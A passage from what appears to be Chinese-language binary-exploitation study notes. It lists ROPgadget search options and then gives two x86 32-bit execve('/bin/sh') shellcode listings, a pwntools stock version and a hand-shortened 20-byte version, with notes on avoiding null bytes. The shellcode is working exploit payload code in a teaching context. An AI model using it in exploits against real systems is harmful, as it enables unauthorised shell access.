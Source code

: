 ```
    --nojop 禁用 JOP 搜索引擎
    --callPreceded 仅显示调用前的小工具（仅限 x86）
    --nosys 禁用 SYS 搜索引擎
    --multibr 启用多个分支小工具
    --all 禁止删除重复的小工具
    --dump 输出小工具字节
```

## 生成shellcode

32位python 官方版

```
/* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    mov ebx, esp
    /* push argument array ['sh\x00'] */
    /* push 'sh\x00\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1016972
    xor ecx, ecx
    push ecx /* null terminate */
    push 4
    pop ecx
    add ecx, esp
    push ecx /* 'sh\x00' */
    mov ecx, esp
    xor edx, edx
    /* call execve() */
    push SYS_execve /* 0xb */
    pop eax
    int 0x80
```

32位精简版

```
#########################################################################
## 一般函数调用参数是压入栈中，这里系统调用使用寄存器
## 需要对如下几个寄存器进行设置，可以比对官方的实现
  ebx = /bin/sh     ## 第一个参数
  ecx = 0             ## 第二个参数
  edx = 0             ## 第三个参数
  eax = 0xb           ## 0xb为系统调用号，即sys_execve()系统函数对应的序号
  int 0x80            ## 执行系统中断
######################################################################### 
## 更精炼的汇编代码
## 这里说明一下，很多博客都会用"/bin//sh"或者官方的"/bin///sh"
## 作为第一个参数，即添加/线来填充空白字符。这里我将"/bin/sh"
## 放在最前面，就不存在汇编代码中间存在空字符截断的问题；另外
## "/bin/sh"是7个字符，32位中需要两行指令，末尾未填充的空字符
## 刚好作为字符串结尾标志符，也就不需要额外压一个空字符入栈。
	push 0x68732f        # 0x68732f --> hs/     little endian
	push 0x6e69622f      # 0x6e69622f --> nib/  little endian
	mov ebx, esp
	xor edx, edx
	xor ecx, ecx
	mov al, 0xb          # al为eax的低8位
	int 0x80
	## 汇编之后字节长度为20字节
```
